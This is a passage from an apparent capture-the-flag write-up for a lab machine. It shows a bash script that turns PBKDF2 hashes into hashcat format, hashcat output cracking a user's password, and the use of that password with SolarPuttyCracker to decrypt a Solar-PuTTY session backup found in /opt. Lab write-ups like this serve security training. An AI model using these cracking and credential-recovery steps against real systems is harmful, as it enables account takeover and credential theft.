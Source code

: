 Our current hashes' salts are not base64 encoded, and the hash is in hexadecimal. Luckily, it isn't difficult to convert the hashes we have to a crackable format. I have a script that automates the process:

```shell
#!/bin/bash
# Convert PBKDF2-HMAC-SHA256 into hashcat-crackable format
# Usage: ./pbkdf2-hmac-sha256.sh <hash_file>

OUTFILE='./crackable_hashes.txt'
TEMPFILE='./crackable_hashes.tmp'

while read -r line; do
        IFS='$' read -r head salt hash <<< "$line"
        b64_salt=$(echo -n "$salt" | base64)
        b64_hash=$(echo -n "$hash" | xxd -r -p | base64)
        crackable_hash="$head:$b64_salt:$b64_hash"
        echo "$crackable_hash" >> "$OUTFILE"
done < "$1"

sed 's/\$/\:/g' "$OUTFILE" > "$TEMPFILE"
mv "$TEMPFILE" "$OUTFILE"
```

```shirohige```'s hash eventually cracks.

```
┌──(kali㉿kali)-[/tmp]
└─$ hashcat -a 0 -m 10900 crackable_hashes.txt /usr/share/wordlists/rockyou.txt --show
sha256:600000:WW5SZ2puaW0=:yVQajGrUC8Bkl5vERgJQQf+smvL3YnJpcdiignLFUO0=:estrella
```

The password we get, however, does not work for ```shirohige``` (local user), nor is it the root user's password. We will have too look for other use cases if not another privesc vector entirely.

Eventually, I came across a ```backups``` folder in ```/opt```, which contains a Solar-PuTTY session backup.

```
shirohige@instant:~$ ls -al /opt/backups/Solar-PuTTY/
total 12
drwxr-xr-x 2 shirohige shirohige 4096 Oct  4 15:22 .
drwxr-xr-x 3 shirohige shirohige 4096 Oct  4 15:22 ..
-rw-r--r-- 1 shirohige shirohige 1100 Sep 30  2024 sessions-backup.dat
```

The backup file can be decrypted with the previously obtained password for ```shirohige``` (web user).

```
┌──(venv)─(kali㉿kali)-[/tmp]
└─$ python3 ~/opt/SolarPuttyCracker/SolarPuttyCracker.py -p estrella /tmp/sessions-backup.dat 
   ____       __             ___         __   __          _____                 __            
  / __/___   / /___ _ ____  / _ \ __ __ / /_ / /_ __ __  / ___/____ ___ _ ____ / /__ ___  ____
 _\ \ / _ \ / // _ `// __/ / ___// // // __// __// // / / /__ / __// _ `// __//  '_// -_)/ __/
/___/ \___//_/ \_,_//_/   /_/    \_,_/ \__/ \__/ \_, /  \___//_/   \_,_/ \__//_/\_\ \__//_/   
                                                /___/                                         
Trying to decrypt using password: estrella
Decryption successful using password: estrella
[+] DONE Decrypted file is saved in: SolarPutty_sessions_decrypted.txt
                                                                                                                                                   